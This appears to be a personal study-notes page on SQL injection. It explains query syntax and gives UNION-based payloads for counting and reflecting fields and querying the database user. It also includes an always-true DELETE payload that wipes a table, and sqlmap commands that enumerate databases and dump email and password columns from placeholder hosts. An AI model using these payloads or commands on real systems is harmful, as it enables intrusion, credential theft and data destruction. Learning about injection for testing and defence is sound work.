 #### SQL Injection
* Allows user to execute SQL statements on the vulnerable server.

##### SELECT Statement
```
SELECT <column list> FROM <table> WHERE <condition>
```  
```
SELECT 22, 'string', 0x12, 'another string'
```  
  
##### UNION COMMAND
```
<SELECT STATEMENT 1 > UNION <SELECT STATEMENT 2>;
```
##### Comments
```
SELECT field FROM table; # test comment
SELECT field FROM table; -- test another comment  
```

  
![Screenshot at 2022-12-25 09-01-34](https://user-images.githubusercontent.com/85208639/209456088-7508953a-442e-4aae-bc4e-2ab6a5bbafec.png)


##### Extracting 1st Column of Product Field
```
SELECT Name, Description FROM Products WHERE ID='1'--
```


![Screenshot at 2022-12-25 09-09-04](https://user-images.githubusercontent.com/85208639/209456143-e1ea043b-9c88-4497-9f3d-386474e6a30f.png)

##### Common Locations To Check For SQLi
> Check places that take users input like Cookies, User-Agent, Accept-Language, GET, POST params, etc.

>Inject params with "'"  

##### Exploiting UNION BASED SQLi

```
id='UNION SELECT null;-- - >> Error

Finding No of Fields
id='UNION SELECT null,null,null;-- - >> Use Hit and Trial until something changes

id='UNION SELECT null,null;-- - >> Change is Seen

id='UNION SELECT 'foo','bar';-- - >> Check reflected Field lets assume foo gets reflected. 
```

##### Quering User
```
id='UNION SELECT user(), 'bar';-- - >> user@localhost
```
#### DELETE Statement 
```
DELETE description FROM items WHERE id=value

DELETE description FROM items WHERE id='1' or '1'='1'; >> DELETE every thing 
```

##### Automating UNION Based Injection With SQLMAP
```
sqlmap -u "demo.site" -p search --technique=U -v3

-v3 - Shows Payload Used by SQLMAP 
```

* --dbs > Enumerate database 
--flush-sessions - Flushes current session
```
xyz
information_schema
```
```
sqlmap -u 'demo.local' --technique=U -D xyz --tables >> Queries tables for database name xyz
```

###### Output 
```
a
b
c
d
```

##### Dump Columns
```
sqlmap -u 'demo.local' --technique=U -D xyz -T b --columns
```

###### Output 
```
email
password
```

##### Dump Columns
```
sqlmap -u 'demo.local' --technique=U -D xyz -T b -C email,password --dump
```

